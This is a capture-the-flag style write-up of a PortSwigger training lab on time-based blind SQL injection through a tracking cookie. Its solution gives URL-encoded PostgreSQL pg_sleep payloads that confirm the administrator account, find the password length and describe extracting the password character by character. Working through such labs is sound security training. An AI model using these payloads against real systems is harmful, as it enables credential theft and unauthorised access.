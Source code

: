 

### Lab description 

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.


#### hint

>  You can find some useful payloads on our [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).


### Solution


- Buzzing with some delay  ( remember to encoding the chars ; and blank space)
![](../img/Paste_image_20230605092523.png)
- Get administrator user
	- `'%3bselect+case+when+(username='administrator')+then+pg_sleep(10)+else+pg_sleep(0)+end+from+users--`
![](../img/Paste_image_20230605093143.png)
- Admin password has **19** chars length `'%3bselect+case+when+(username='administrator'+and+length(password)>19)+then+pg_sleep(10)+else+pg_sleep(0)+end+from+users--`
- `SUBSTRING()` function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.
- Lab solved!

![](../img/Paste_image_20230605104517.png)

